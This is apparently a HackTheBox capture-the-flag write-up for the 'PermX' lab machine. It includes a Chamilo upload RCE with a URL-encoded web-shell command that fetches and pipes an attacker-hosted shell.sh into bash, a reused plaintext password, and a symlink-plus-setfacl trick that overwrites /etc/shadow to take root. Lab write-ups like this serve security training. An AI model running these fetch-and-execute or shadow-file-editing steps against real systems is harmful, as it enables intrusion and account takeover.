
HTB: PermX
Shell as www-data
Sub domains found
www is a cloned website of the main site
lms has a login page

Looking at exploits for this we have rce
https://starlabs.sg/advisories/23/23-4220/

Getting a shell
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%34%3a%38%30%30%30%2f%73%68%65%6c%6c%2e%73%68%20%20%7c%20%62%61%73%68'
And our listener

Shell as mtz
We cannot access the user directory so we need to move laterally and compromise their account
After a ton of manual enumeration i found the password
03F6lY3uXAP2bkW8

We can now get the user flag

Privilege Escalation to root
We can run this script as root

mtz@permx:/var/www/chamilo$ cat /opt/acl.sh #!/bin/bash
if [ "$#" -ne 3 ]; then /usr/bin/echo "Usage: $0 user perm file" exit 1fi
user="$1"perm="$2"target="$3"
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then /usr/bin/echo "Access denied." exit 1fi
# Check if the path is a fileif [ ! -f "$target" ]; then /usr/bin/echo "Target must be a file." exit 1fi
/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"After a bit of testing I thought about using a symbolic link. Typically when creating a link you wont have access to read it BUT with this script we can change any permissions to any file within the /home/mtz file. So theoretically we should be able to create a link to any file and give ourselves read and write permissions to the link therefore editing the main file too.
Create a link to /etc/shadow
ln -s /etc/shadow /home/mtz/link_to_shadowChange permissions of the link so we have RW access
sudo /opt/acl.sh mtz rw /home/mtz/link_to_shadowAnd sure enough it works

We then nano the linked shadow file, and since its a link it will edit the main shadow file. We can now copy the password from our user mtz since we know what the unshadowed version is and replace it with the root shadow password(essentially changing the password).

By changing the mtz shadow hash to the root hash we essentially change the root password to mtz's password which is 03F6lY3uXAP2bkW8
Switching to root with the new changed password

